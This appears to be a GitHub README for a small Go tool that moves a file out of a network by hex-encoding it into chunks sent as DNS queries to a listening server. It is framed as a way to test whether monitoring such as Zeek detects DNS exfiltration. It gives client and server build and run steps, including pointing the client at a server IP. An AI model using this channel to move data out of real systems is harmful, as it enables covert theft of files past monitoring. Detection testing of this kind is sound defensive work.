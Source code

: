 # DNS Exfil Test Tool

This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

----------------------

To Use: **Server Side**
1. > cd dns-exfil-test/server 
2. > go mod init server/v2
3. > go get github.com/miekg/dns
4. > go build
5. > ./dns-exfil-test

To Use: **Client Side**
1. > cd dns-exfil-test/client 
2. > sed -i -e 's|127.0.0.1|[SERVER_IP]|g' go-dnsclient.go
3. > go mod init dns-exfil-text/client
4. > go build
5. > ./client [file_to_send]


- the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com

- Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.

- The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.

- You will need to rename the outfile if you want to send multiple files.

----------------------

***Example Execution:***

**Client**

![Image](client.png)

**Server**

![Image](server.png)


